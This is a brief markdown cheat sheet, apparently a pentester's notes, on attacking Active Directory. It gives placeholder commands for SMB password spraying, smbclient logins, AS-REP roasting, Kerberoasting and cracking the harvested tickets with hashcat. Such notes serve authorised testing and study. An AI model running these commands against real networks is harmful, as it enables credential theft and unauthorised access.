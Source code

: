 ### Bruteforcing and password spraying
```bash
crackmapexec smb <ip> -u <username/file> -p <password/file>
```

## Establishing connection
### smbclient
```bash
smbclient //<ip> -U <user>
```

### smbclient.py
*impacket-smbclient*

```bash
# Normal login
smbclient.py <domain>/<username>:<password>@<ip>

# Auth with kerberos
smbclient.py -k <domain>/<username>:<password>@<ip> -dc-ip <ip>
```



# Kerberos
## GetNPUsers.py
Impacket's `GetNPUsers.py` will attempt to harvest the non-preauth AS_REP responses for a given list of usernames

```bash
GetNPUsers.py domain.local/ -dc-ip <ip> -usersfile <username_file> -format hashcat -outputfile <output>
```

## Kerberoasting
Kerberoasting is a post-exploitation attack technique that attempts to obtain a password hash of an Active Directory account that has a Service Principal Name.
```bash
GetUserSPNs.py -request -dc-ip <ip> domain.local/user -save -outputfile <output_file>
```

### Cracking the ticket
```bash
hashcat -m 13100 --force <hash_file> <password_file>
```

### Troubleshooting
#### NTLM hash disabled
Use the `-k` option as well as `-dc-host` instead of `-dc-ip`. As the latter will break the authentication and throw an error.
